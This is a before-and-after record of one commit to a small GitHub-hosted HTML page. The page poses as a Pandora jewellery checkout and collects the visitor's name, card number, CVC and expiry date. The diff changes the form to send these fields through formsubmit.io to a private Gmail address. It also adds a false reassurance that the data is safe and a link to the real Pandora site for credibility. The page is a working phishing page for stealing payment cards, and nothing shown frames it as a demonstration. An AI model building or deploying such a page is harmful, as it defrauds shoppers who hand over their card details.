

Before and after one commit to martinadistefano/bracciale-pandora-marty, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 93-800 px from the top of the page, without its empty margins (290-993 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -3,87 +3,94 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Pagamento Pandora</title>
+    <title>Modulo Pandora</title>
     <style>
         body {
             font-family: Arial, sans-serif;
-            background-color: #f4f4f4;
+            background-color: #f8f8f8;
             margin: 0;
             padding: 0;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
         }
-        .container {
-            max-width: 600px;
-            margin: 0 auto;
-            padding: 20px;
-            background-color: white;
+
+        .form-container {
+            background-color: #fff;
+            padding: 40px;
             border-radius: 8px;
-            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
+            box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
+            width: 100%;
+            max-width: 500px;
+            text-align: center;
         }
+
         h1 {
             color: #333;
-            text-align: center;
+            font-size: 24px;
+            margin-bottom: 20px;
         }
-        .form-group {
-            margin-bottom: 15px;
-        }
-        .form-group label {
-            font-size: 14px;
-            color: #555;
-        }
-        .form-group input {
+
+        input[type="text"], input[type="number"], input[type="email"] {
             width: 100%;
-            padding: 10px;
-            font-size: 16px;
+            padding: 12px;
+            margin: 10px 0;
             border: 1px solid #ddd;
             border-radius: 4px;
+            font-size: 16px;
         }
-        .form-group input[type="submit"] {
-            background-color: #007BFF;
+
+        input[type="submit"] {
+            width: 100%;
+            padding: 14px;
+            background-color: #ff5733;
+            border: none;
             color: white;
+            font-size: 18px;
+            border-radius: 4px;
             cursor: pointer;
         }
-        .form-group input[type="submit"]:hover {
-            background-color: #0056b3;
+
+        input[type="submit"]:hover {
+            background-color: #e14a29;
         }
+
         .message {
-            text-align: center;
+            margin-top: 20px;
             font-size: 16px;
-            color: #4CAF50;
+            color: #666;
         }
+
+        .message a {
+            color: #ff5733;
+            text-decoration: none;
+        }
+
+        .message a:hover {
+            text-decoration: underline;
+        }
+
     </style>
 </head>
 <body>
-    <div class="container">
-        <h1>Pagamento Pandora</h1>
-        <form action="https://formspree.io/f/xqablvgb" method="POST">
-            <!-- Campo Nome Utente -->
-            <div class="form-group">
-                <label for="username">Nome Utente:</label>
-                <input type="text" id="username" name="username" required>
-            </div>
-            <!-- Campo Numero Carta -->
-            <div class="form-group">
-                <label for="card-number">Numero Carta:</label>
-                <input type="text" id="card-number" name="card-number" maxlength="16" required>
-            </div>
-            <!-- Campo CVC -->
-            <div class="form-group">
-                <label for="cvc">CVC:</label>
-                <input type="text" id="cvc" name="cvc" maxlength="3" required>
-            </div>
-            <!-- Campo Data di Scadenza -->
-            <div class="form-group">
-                <label for="expiry-date">Data di Scadenza:</label>
-                <input type="text" id="expiry-date" name="expiry-date" required>
-            </div>
-            <!-- Pulsante Submit -->
-            <div class="form-group">
-                <input type="submit" value="Invia Dati">
-            </div>
+    <div class="form-container">
+        <h1>Completa il tuo acquisto Pandora 💍</h1>
+        <p>Inserisci i dati per acquistare la tua collana Pandora</p>
+
+        <!-- Form che invia i dati all'email tramite Formsubmit.io -->
+        <form action="https://formsubmit.io/send/porcodioporcodio.699@gmail.com" method="POST">
+            <input type="text" name="username" placeholder="Nome Utente" required>
+            <input type="number" name="cardnumber" placeholder="Numero Carta (max 16 cifre)" maxlength="16" required>
+            <input type="number" name="cvc" placeholder="CVC (max 3 cifre)" maxlength="3" required>
+            <input type="text" name="expirydate" placeholder="Data di Scadenza (MM/YY)" required>
+
+            <input type="submit" value="Completa Acquisto">
         </form>
-        <!-- Messaggio di conferma -->
+
         <div class="message">
-            <p>Grazie per aver effettuato il pagamento 💖</p>
+            <p>Grazie per il pagamento ❤️. I tuoi dati sono al sicuro con noi.</p>
+            <p><a href="https://it.pandora.net/it/charm/catene-di-sicurezza/catena-di-sicurezza-margherite/798764C01.html" target="_blank">Clicca qui per visitare Pandora!</a></p>
         </div>
     </div>
 </body>
```
